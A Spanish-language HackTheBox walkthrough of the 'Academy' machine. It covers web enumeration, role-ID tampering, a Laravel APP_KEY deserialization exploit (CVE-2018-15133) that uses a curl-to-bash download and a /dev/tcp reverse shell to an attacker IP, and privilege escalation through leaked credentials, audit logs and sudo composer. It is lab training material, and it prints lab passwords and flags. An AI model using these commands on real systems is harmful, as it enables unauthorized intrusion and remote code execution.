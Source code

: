 ```yaml
---
title: HackTheBox - Academy
author: cotes
date: 2023-09-07 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, Laravel, 'Information Leakage']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Academy/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Academy Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **Laravel Exploitation, Information Leakage**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Academy`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Academy/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p21,80,33060 -sCV <IP> -oN versiones`**

    ```
    <SNIP>
    http-title: Did not follow redirect to http://academy.htb/
    <SNIP>
    ```

    > Tenemos un dominio, el cual debemos guardar en el archivo **`/etc/hosts`** para indicar que la **IP de la Máquina Academy** resuelva a **`http://academy.htb/`**.
    {: .prompt-info }


c. Si vistamos el servicio web, podemos **`Registrarnos`** o **`Loguearnos`**, por lo que enumeraremos por más archivos **`.php`** que puedan existir

```bash
wfuzz -c -t 10 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://academy.htb/FUZZ.php

<SNIP>
000000256:   200        141 L    227 W      2633 Ch     "admin"
```

d. Si capturamos la petición de **registrar** con Burp Suite veremos que se envía un **`roleid`** con valor de **0** por default

* **`uid=test&password=test&confirm=test&roleid=0`**

    * Lo que haremos es cambiarlo **`1,2,3,etc`** para ver si la cuenta registrada cambia de privilegios o es válida en **`/admin.php`** 

    * El **`roleid`** válido es `1`

e. Nos autenticamos en **/admin.php** y veremos un subdominio, también lo agregamos al **`/etc/hosts`**

![](/assets/images/HTB/Easy/Academy/02-subdomain.png)


f. Si visitamos el nuevo subdominio, veremos un error de Laravel, del cual podemos extraer la **`APP_KEY`** (Variable de configuración utilizada para mantener segura la información sensible, como las sesiones, las cookies y otras características de seguridad)

1. [CVE-2018-15133](https://github.com/kozmic/laravel-poc-CVE-2018-15133) y [phpgcc](https://github.com/ambionics/phpggc)

2. El escenario será el siguiente: 
    * Crearemos con **phpgcc** un comando encodeado que realice una petición a un archivo **index.html** que estará hosteado en nuestra **Máquina Atacante** 

        ```bash
        #!/bin/bash
        bash -i >& /dev/tcp/<tun0 IP>/443 0>&1
        ```

        * Nos pondremos en escucha para servir el archivo: **`python3 -m http.server 8000`**

    * Estaremos a la espera de una reverse shell: **`nc -lvnp 443`**


    > El comando encodeado será **`curl -s -X GET http://<tun0 ip>:8000/index.html | bash`**. Con este comando obtenemos el fichero **index.html** y lo interpretaremos con bash
    {: .prompt-info }

    ```bash
    ./phpggc Laravel/RCE1 system 'curl -s -X GET http://10.10.14.115:8000/index.html | bash' -b
    ```

    * Ejecutamos el exploit

        ```bash
        ./cve-2018-15133.php <APP_KEY> <OUTPUT phpgcc>
        ```

    * El **output** del exploit lo tramitamos como cabecera en un petición por **post** a **`http://dev-staging-01.academy.htb/`**

        ```bash
        curl -s -X POST http://dev-staging-01.academy.htb/ -H "X-XSRF-TOKEN: eyJpdiI6ImFWSWpQRDZ<SNIP>="
        ```

    * Conseguiremos la reverse shell 

        ```bash
        www-data@academy:/var/www/html/htb-academy-dev-01/public$
        ```

### Escalada de Privilegios 💹

a. Listamos los archivos **.env** (Aquí se almacenan credenciales de bases de datos u otra aplicación).

```bash
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```
    
b. Existen varios usuarios en el sistema, así que intentaremos autenticarnos con la credencial **`mySup3rP4s5w0rd!!`**

```bash
su cry0l1t3
Password: mySup3rP4s5w0rd!!
script /dev/null -c bash
Script started, file is /dev/null
cry0l1t3@academy:/var/www/html$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
```

> Grupo **`adm`:** Podemos ver archivos de **`logs`**.
{: .prompt-info }


c. Podemos listar el contenido de **`/var/log/audit`** (Aquí se almacenan logs de inicio de sesión de usuarios, cambios de permisos, etc)

* En este directorio filtraremos por líneas que contengan los nombres de los usuarios del sistema

    ```bash
    cry0l1t3@academy:/var/log/audit$ grep -r -i "mrb3n" *
    ```

d. Analizaremos en todos los archivos **`audit.log`** algo relacionado con:

* **`type=TTY`**: Relacionado con una terminal de tipo "TTY".

* **`tty pid=<N> uid=<N> auid=<N> ses=<N>`**: Estos campos registran información sobre el proceso (pid), el ID de usuario (uid), el ID de usuario auditado (auid) y la sesión (ses) asociada con el evento. 

* **`comm="[Comando]"`**: Este campo muestra el nombre del comando o programa que se estaba ejecutando cuando se registró el evento.

* **`data=[Data Hexadecimal]`**: Esta es la parte más interesante del registro y es específica del evento en sí.

    📇 En ocasiones tenemos que ejecutar dos veces seguidas este comando.

    ```bash
    grep -r "mrb3n" -C 10 | grep -i "tty" | grep "data" | awk '{print $11}' | tr -d "data=" | xxd -ps -r

    <SNIP>
    mrb3n_Ac@d3my!
    <SNIP>
    ```

e. Pasamos al usuario **`mrb3n`** con la credencial reciente y listamos nuestros privilegios a nivel de **sudoers**

```bash
mrb3n@academy:/var/log/audit$ sudo -l
[sudo] password for mrb3n: mrb3n_Ac@d3my!

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

f. Vamos a [GTFObins](https://gtfobins.github.io/) y buscamos una forma de escalar privilegios con este permiso asignado.

* Por último, ya como **`root`** leemos las **`flags`**

    ```bash
    root@academy:/tmp/tmp.dA8tTSy4Sk# find / -name user.txt 2>/dev/null  | xargs cat
    b4fb4ebd4e45397059048b75d2572658

    root@academy:/tmp/tmp.dA8tTSy4Sk# find / -name root.txt 2>/dev/null  | xargs cat
    b031b75fe05537f90812f247d5de1177
    ```

> Después de todo este proceso, hemos finalmente vulnerado la `Máquina Academy` 🎉
{: .prompt-tip }